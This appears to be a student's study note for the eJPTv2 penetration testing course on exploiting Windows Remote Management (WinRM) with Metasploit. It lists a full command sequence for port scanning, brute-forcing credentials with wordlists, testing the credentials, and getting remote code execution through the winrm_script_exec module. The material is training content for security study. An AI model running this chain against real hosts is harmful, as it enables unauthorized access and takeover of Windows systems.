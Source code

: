 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/The Metasploit Framework/Windows Exploitation/Windows Exploitation]]"
---
```


# Exploiting WinRM

- Windows Remote Management protocol
- Used to facilitate remote access with Windows systems
- Typically used to:
	- remotely access and interact with Windows hosts
		- on a local network
		- on internet
	- Manage and configure windows systems remotely

- WinRM implements access control and security for communication between systems
- MSF can identify users and their passwords as well as execute commands

## Demonstration

```bash
> db_nmap -sS -sV -O -p- <ip>
# port 5985 open: WinRM
> use auxiliary/scanner/winrm/winrm_auth_methods
> run
# brute force creds
> use auxiliary/scanner/winrm/winrm_login
> set user_file common_users.txt
> set pass_file unix_passwords.txt
> run
# test creds
> use auxiliary/scanner/winrm/winrm_cmd
> set username <user>
> set password <pass>
> set CMD whoami
> run
# remote code execution
> use exploit/windows/winrm/winrm_script_exec
> set username <user>
> set password <pass>
# if problems with powershell
> set force_vbs true
> run
m> 
```
